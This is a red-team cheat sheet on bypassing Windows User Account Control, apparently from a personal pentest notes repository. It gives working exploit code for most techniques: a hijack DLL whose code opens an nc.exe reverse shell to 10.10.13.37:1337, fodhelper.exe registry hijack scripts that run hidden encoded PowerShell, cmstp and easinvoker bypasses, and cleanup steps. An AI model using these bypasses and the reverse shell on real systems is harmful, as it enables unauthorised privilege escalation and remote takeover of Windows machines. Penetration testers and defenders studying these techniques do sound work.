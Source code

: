 ```yaml
---
description: User Account Control
---
```


# UAC Bypass

* [https://github.com/hfiref0x/UACME](https://github.com/hfiref0x/UACME)
* [https://github.com/sailay1996/UAC_Bypass_In_The_Wild](https://github.com/sailay1996/UAC_Bypass_In_The_Wild)
* [https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC](https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC)




## Enumeration

Check current token privileges and UAC settings with Seatbelt:

```
PS > .\Seatbelt.exe TokenPrivileges UAC
```




## SystemPropertiesAdvanced.exe

`srrstr.dll` DLL hijacking.

* [https://egre55.github.io/system-properties-uac-bypass](https://egre55.github.io/system-properties-uac-bypass)

{% embed url="https://youtu.be/krC5j1Ab44I?t=3570" %}

{% code title="srrstr.c" %}
```c
// i686-w64-mingw32-g++ srrstr.c -lws2_32 -o srrstr.dll -shared

#include <windows.h>

BOOL WINAPI DllMain(HINSTANCE hinstDll, DWORD dwReason, LPVOID lpReserved) {
	switch(dwReason) {
		case DLL_PROCESS_ATTACH:
			WinExec("C:\\Users\\<USERNAME>\\Documents\\nc.exe 10.10.13.37 1337 -e powershell", 0);
		case DLL_PROCESS_DETACH:
			break;
		case DLL_THREAD_ATTACH:
			break;
		case DLL_THREAD_DETACH:
			break;
	}

	return 0;
}
```
{% endcode %}

Upload `srrstr.dll` to `C:\Users\%USERNAME%\AppData\Local\Microsoft\WindowsApps\` and check it:

```
PS > rundll32.exe srrstr.dll,xyz
```

Exec and get a shell ("requires an interactive window station"):

```
PS > cmd /c C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```




## cmstp.exe

* [0x00-0x00.github.io/research/2018/10/31/How-to-bypass-UAC-in-newer-Windows-versions.html](https://0x00-0x00.github.io/research/2018/10/31/How-to-bypass-UAC-in-newer-Windows-versions.html)
* [https://gist.github.com/snovvcrash/56d51e535c3afd89a1e9e68c284553a6](https://gist.github.com/snovvcrash/56d51e535c3afd89a1e9e68c284553a6)

Compile from source, load and execute:

```
PS > Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\Source.cs")) -ReferencedAssemblies "System.Windows.Forms" -OutputAssembly "CMSTP-UAC-Bypass.dll"
PS > [Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\CMSTP-UAC-Bypass.dll"))
PS > [CMSTPBypass]::Execute("C:\Windows\System32\cmd.exe")
```

Load from a weaponized PowerShell and execute:

```
PS > Bypass-UAC -C "C:\Windows\System32\cmd.exe"
```




## easinvoker.exe

- [https://github.com/sailay1996/UAC_Bypass_In_The_Wild/tree/master/FileSys_UAC_Bypass/uac_easinvoker](https://github.com/sailay1996/UAC_Bypass_In_The_Wild/tree/master/FileSys_UAC_Bypass/uac_easinvoker)
- [https://github.com/g3tsyst3m/elevationstation/blob/main/elevationstation/elevationstation.cpp](https://github.com/g3tsyst3m/elevationstation/blob/ba521d9901c98458526c1790b2b0ed0b370796bc/elevationstation/elevationstation.cpp#L895-L903)

```
mkdir "\\?\C:\Windows "
mkdir "\\?\C:\Windows \System32"
copy c:\windows\system32\easinvoker.exe "C:\Windows \System32"
copy netutils.dll "C:\Windows \System32"
"C:\Windows \System32\easinvoker.exe"
del /q "C:\Windows \System32\*"
rmdir "C:\Windows \System32"
rmdir "C:\Windows "
```




## fodhelper.exe

* [https://gist.github.com/netbiosX/a114f8822eb20b115e33db55deee6692](https://gist.github.com/netbiosX/a114f8822eb20b115e33db55deee6692)

Create and set registry values (the payload is generated with [`charlotte.py`](/pentest/infrastructure/ad/av-edr-evasion/README.md#charlotte)):

```
PS > New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
PS > New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
PS > Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "rundll32 C:\Windows\System32\spool\drivers\color\met.dll, SUJIzDKv" -Force
```

Trigger `fodhelper.exe`:

```
PS > Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```

Clean up:

```
PS > Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```

Another way to do it with a script (hijacking PowerShell executable):

{% code title="fod.ps1" %}
```powershell
function Fod {
    $cmd = "C:\Windows\Tasks\foo.exe -enc <BASE64_CMD>"
	
    copy C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe C:\Windows\Tasks\foo.exe
    Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force -ErrorAction SilentlyContinue
	
    New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
    New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
    Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value $cmd -Force
	
	Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
    Start-Sleep -s 3
	
    Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force -ErrorAction SilentlyContinue
}
```
{% endcode %}

The same thing with **ProgID** [abuse](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses):

{% tabs %}
{% tab title="PS" %}
{% code title="fod-ng.ps1" %}
```powershell
function FodNG {
    Param (
        [String]$cmd = "C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle Hidden -NoP -NoLogo -exec Bypass -enc <BASE64_CMD>"
    )
	
	Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force -ErrorAction SilentlyContinue

    New-Item "HKCU:\Software\Classes\.snovvcrash\Shell\Open\command" -Force
	New-ItemProperty -Path "HKCU:\Software\Classes\.snovvcrash\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
    Set-ItemProperty "HKCU:\Software\Classes\.snovvcrash\Shell\Open\command" -Name "(default)" -Value $cmd -Force
	
    New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
    Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".snovvcrash" -Force
	
    Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
    Start-Sleep 3
	
    Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
    Remove-Item "HKCU:\Software\Classes\.snovvcrash\" -Recurse -Force
}
```
{% endcode %}
{% endtab %}
{% tab title="CMD" %}
{% code title="fod-ng.bat" %}
```bat
reg add HKCU\Software\Classes\Program\Shell\Open\command /f
reg add HKCU\Software\Classes\Program\Shell\Open\command /v DelegateExecute /f
reg add HKCU\Software\Classes\Program\Shell\Open\command /ve /d C:\Windows\System32\cmd.exe /f
reg add HKCU\Software\Classes\ms-settings\CurVer /f
reg add HKCU\Software\Classes\ms-settings\CurVer /ve /d Program /f
C:\Windows\System32\fodhelper.exe
```
{% endcode %}
{% endtab %}
{% endtabs %}




## SilentCleanup

* [https://hausec.com/2020/10/30/using-a-c-shellcode-runner-and-confuserex-to-bypass-uac-while-evading-av/](https://hausec.com/2020/10/30/using-a-c-shellcode-runner-and-confuserex-to-bypass-uac-while-evading-av/)
* [https://github.com/chryzsh/Aggressor-Scripts/tree/master/uac-bypass](https://github.com/chryzsh/Aggressor-Scripts/tree/master/uac-bypass)




## SCM UAC Bypass

- [https://www.tiraniddo.dev/2022/03/bypassing-uac-in-most-complex-way.html](https://www.tiraniddo.dev/2022/03/bypassing-uac-in-most-complex-way.html)
- [https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82](https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82)




## Tricks

Bypass UAC for file read/write:

```
Cmd > net use A: \\127.0.0.1\C$
Cmd > A:
Cmd > cd \Windows\System32
Cmd > echo test > test.txt
Cmd > dir test.txt
```
